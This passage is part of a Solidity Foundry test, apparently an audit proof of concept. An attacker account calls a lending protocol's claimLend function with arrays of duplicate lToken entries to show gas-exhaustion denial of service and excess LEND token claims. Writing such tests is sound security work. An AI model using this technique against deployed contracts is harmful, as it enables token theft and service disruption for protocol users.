 ```solidity
                console2.log("LEND claimed successfully: %s tokens", lendBalanceAfter - lendBalanceBefore);
            } else {
                console2.log("No new LEND tokens received by attacker, or LEND balance unchanged.");
            }
            
            // Verify LEND was successfully transferred to the attacker
            assertGt(lendBalanceAfter, lendBalanceBefore, "Attacker should have received LEND tokens");
        } catch Error(string memory reason) {
            uint256 gasUsed = gasStart - gasleft(); // Gas used until revert
            console2.log("claimLend call REVERTED.");
            console2.log("Reason: %s", reason);
            console2.log("Gas used until revert: %s", gasUsed);
            // If the reason is "out of gas" or similar, this demonstrates the DoS.
            // Foundry might not give a specific "out of gas" string but just a generic revert
            // if the call stack depth or overall gas limit is hit.
        } catch (bytes memory lowLevelData) {
            uint256 gasUsed = gasStart - gasleft(); // Gas used until revert
            console2.log("claimLend call REVERTED with low-level data.");
            console2.log("Low-level data: %s", vm.toString(lowLevelData));
            console2.log("Gas used until revert: %s", gasUsed);
        }
        
        vm.stopPrank();
        console2.log("--------------------------------------");
    }

    /**
     * @notice Demonstrates gas consumption scaling with specific array sizes
     */
    function test_gas_consumption_scaling() public {
        address lTokenForClaim = lTokensDeployed[0];
        address[] memory holders = new address[](1);
        holders[0] = attacker;
        
        // Test with different array sizes to show gas consumption scaling
        uint16[] memory testSizes = new uint16[](5);
        testSizes[0] = 1;
        testSizes[1] = 10;
        testSizes[2] = 50;
        testSizes[3] = 100;
        testSizes[4] = 200;
        
        console2.log("=== Gas Consumption Scaling Demonstration ===");
        
        for (uint256 i = 0; i < testSizes.length; i++) {
            uint16 arraySize = testSizes[i];
            
            // Create array with duplicates of the same lToken
            LToken[] memory lTokensToClaimIn = new LToken[](arraySize);
            for (uint16 j = 0; j < arraySize; j++) {
                lTokensToClaimIn[j] = LToken(lTokenForClaim);
            }
            
            vm.startPrank(attacker);
            
            uint256 gasStart = gasleft();
            coreRouter.claimLend(holders, lTokensToClaimIn, false, true);
            uint256 gasUsed = gasStart - gasleft();
            
            console2.log("Array size: %s, Gas used: %s", arraySize, gasUsed);
```